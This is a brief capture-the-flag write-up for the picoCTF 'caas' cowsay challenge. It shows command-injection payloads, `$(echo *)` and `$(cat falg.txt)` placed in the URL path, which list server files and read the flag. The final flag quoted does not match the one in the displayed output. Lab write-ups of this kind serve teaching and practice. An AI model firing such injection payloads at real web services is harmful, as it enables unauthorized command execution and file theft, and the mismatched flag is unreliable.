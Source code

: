 This chall is a very nice and easy one

Simply we have an unfiltered user input sent to a bash!!! PERFECT CHALL!

With some bash knowledge you know that `echo 00 $(echo 123)` will print out `00 123` which means that this snytax `$()` in bash will print out the output of the command inside it!

And since the chall gives us a bash terminal access using url we can simply type in `https://caas.mars.picoctf.net/cowsay/$(echo *)` this will print out all files/directories, you will get this output
```
 __________________________________
/ Dockerfile falg.txt index.js     \
| node_modules package.json public |
\ yarn.lock                        /
 ----------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

```

AMAMZING ISN'T IT!!
Now simply type in `https://caas.mars.picoctf.net/cowsay/$(cat falg.txt)` and you'll get
```
 _________________________________________
/ picoCTF{moooooooooooooooooooooooooooooo \
\ oooooooooooooooooooooooooooooo0o}       /
 -----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

```

There you go!! the flag is `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
